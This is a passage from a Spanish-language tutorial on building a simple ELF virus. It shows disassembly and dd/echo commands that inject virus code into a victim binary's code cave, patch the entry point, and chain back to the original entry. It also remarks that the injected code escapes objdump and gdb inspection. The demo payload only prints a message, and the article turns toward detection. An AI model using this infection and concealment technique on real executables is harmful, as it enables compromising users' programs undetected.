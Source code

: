 ```bash
  1d:   5f                      pop    %rdi
  1e:   b8 dd cc bb aa          mov    $0xaabbccdd,%eax
  23:   ff e0                   jmpq   *%rax

(...)
```

Como podéis ver, nuesta dirección `0xaabbccdd` se encuentra claramente en el offset `0x1f` de nuestro fichero objeto. Ahora ya podemos volver a infectar nuestro programa víctima. El proceso será igual que el que vimos en la sección anterior, pero con distintos valores y un comando extra para escribir la dirección del punto de entrada original en el código del virus. Algo como esto:


```
$ cp victima victima2
$ dd if=virus2.o bs=1 skip=$((0x180)) count=$((0x43)) of=victima2 seek=$((0x70c)) conv=notrunc
$ echo -ne "\x0c\x07" | dd of=victima2 seek=$((0x18)) bs=1 count=2 conv=notrunc
$ echo -ne "\x30\x04\x40\x00" | dd of=victima2 seek=$((0x1f + 0x70c)) bs=1 count=4 conv=notrunc
$  ./victima2
Que pasa lectores de Occams!!
Hola Mundo
```

Hemos hecho una copia del programa víctima original, para disponer de dos binarios infectados, cada uno de ellos con una de nuestras versiones del virus. Esto lo vamos a utilizar un poquito más tarde.

Pues ahí lo tenéis. Este virus solo imprime un mensaje en la pantalla... y además necesita bastante assistencia por nuestra parte, pero, en esencia, lo que acabamos de hacer es lo que muchos virus ahí fuera hacen de forma automática.

# Un interesante efecto lateral
Debo admitir que el resultado anteior me sorprendió un poco. Esperaba tener que parchear también los campos que contenían el tamaño del segmento de código. Si recordáis, cada segmento en la _Program Header Table_ contiene dos campos, una para el tamaño del segmento en memoria, y otro para el tamaño del segmento en el disco. Aparentemente, al menos para este sencillo caso, los campos son ignorados (en cierta medida) y la cueva de código entre el segmento de código y el de datos se carga en memoria independientemente de lo que digan esos valores.

La razón la verdad que no la he investigado. Quizás sea un tema interesante para un futuro artículo, pero este hecho tiene unos interesantes efectos laterales.

Probad a volcar el código del programa victima con el comando `objdump -d victima`. Efectivamente, ni rastro del código del virus. El volcado termina donde debe y no muestra el virus que se encuentra al final del código original. De la misma forma, si utilizáis `gdb` tampoco podréis ver el código, ni con el comando `disassemble` ni intentando un volcado directo con `x/20i *0x4007c0`. Para poder verlo tendréis que poner un breakpoint y comenzar la ejecución.

Desde el punto de vista de dificultar la detección del virus esto es bastante interesante. Si a esto, añadimos el hecho de que al utilizar una cueva de código no hemos cambiado el tamaño del binario, pues la verdad que nos a quedado un virus bastante molón.

# El punto de vista de los _Buenos_
Ahora que tenemos una idea general de como funciona un virus es un buen momento para cambiarnos el sombrero y enfrentarnos al tema desde el punto de vista de los _buenos_. Los que se encargan de que esos virus no afecten a nuestros bienamados compañero digitales :).
